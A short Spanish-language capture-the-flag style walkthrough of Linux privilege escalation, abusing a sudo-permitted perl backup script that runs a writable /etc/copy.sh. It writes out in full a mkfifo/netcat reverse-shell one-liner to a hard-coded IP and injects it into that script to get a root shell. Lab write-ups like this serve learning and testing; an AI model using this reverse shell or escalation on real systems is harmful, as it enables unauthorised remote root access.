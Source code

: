 
para escalar privilegios debe volverse costumbre varios pasos 
	1- permisos SUID
	2- ver si el usuario tiene algun permiso de ejecucion como administrador con sudo -l
![[Pasted image 20230911180742.png]]
aqui podemos observar que el usuario itguy tiene permisos en perl y en el archivo backup.pl 
hacemos un cat en backup.pl
![[Pasted image 20230911193659.png]]
vemos que ejecuta un shell sobre la ruta etc/copy.sh vamos a modificar el copy.sh![[Pasted image 20230911194041.png]]
hacemos un echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.76.125 445 >/tmp/f" > /etc/copy.sh esto lo hacemos para "imprimir" el echo dentro del archivo copy.
luego lo que tenemos que hacer es ejecutarlo 
![[Pasted image 20230911194239.png]]
listo
![[Pasted image 20230911194334.png]]
ya esta pwneada la maquina Happy hacking!
